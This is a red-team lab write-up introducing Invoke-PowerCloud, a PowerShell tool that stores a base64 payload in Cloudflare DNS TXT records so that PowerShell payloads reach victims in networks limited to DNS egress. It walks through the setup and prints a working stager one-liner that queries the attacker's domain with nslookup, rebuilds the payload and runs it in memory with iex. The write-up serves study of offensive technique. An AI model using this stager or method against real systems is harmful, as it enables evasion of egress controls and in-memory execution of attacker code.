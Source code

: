 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tools works is by performing the following high level steps:

* Take the powershell payload file
* Divide the payload file into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step in base64 format
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with autoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executed the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo / Execution

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the script to specify: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code-tabs %}
{% code-tabs-item title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

Everything in action can be seen in the below gif:

![](../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal.

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}

